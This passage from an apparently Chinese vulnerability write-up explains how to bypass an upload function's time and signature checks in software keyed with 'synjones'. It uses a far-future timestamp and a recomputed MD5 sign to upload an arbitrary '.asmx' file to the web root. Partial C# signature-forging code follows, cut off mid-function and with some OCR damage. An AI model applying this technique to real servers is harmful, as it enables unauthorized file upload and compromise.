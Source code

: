  - 简要分析参数：text为上传路径，为path的值或/，text2=sign，text3=time，strMd=（对接受的文件名+上传路径+时间）的key值synjones的加密

然后思考该如何利用该漏洞

 - 该功能就校验了两个值，text3和sign。text3要绕过，只需text3=d>d2即可，sign要绕过的话也很简单，直接把其余参数(file.FileName+text + text3, "synjones")固定了，用他的算法计算出来就行。文件名任意，目录选“~/”，时间因为有格式yyyyMMddHHmmssff，所以直接写未来时间2999121212120000之后，时间格式再转换后不会改变

提取它的C#编译魔改代码如下：

> /*
> 
> * 由SharpDevelop创建。
> 
> * 用户： ASUS
> 
> * 日期: 2022-4-26
> 
> * 时间: 23:05
> 
> *
> 
> * 要改变这种模板请点击 工具|选项|代码编写|编辑标准头文件
> 
> */
> 
> **using** System;
> 
> **using** System.Security.Cryptography;
> 
> **using** System.Text;
> 
> **namespace** test{
> 
> // Token: 0x0200002E RID: 46
> 
> public class InterFaceMd5Helper{
> 
> static void Main(String[] args){
> 
> string filename="1.asmx";
> 
> string text = "~/";
> 
> string text2 = "2999121212120000";
> 
> string CX = filename+text+text2 ;
> 
> string strMd = GetStrMd5(CX,"synjones");
> 
> Console.WriteLine(strMd);
> 
> Console.ReadLine();}
> 
> // Token: 0x0600017A RID: 378 RVA: 0x0000FCCC File Offset: 0x0000DECC
> 
> publi staticstring GetStrMd5 (string ConvertString, string key)
> 
> {
> 
> string result;
> 
> **try**
> 
> {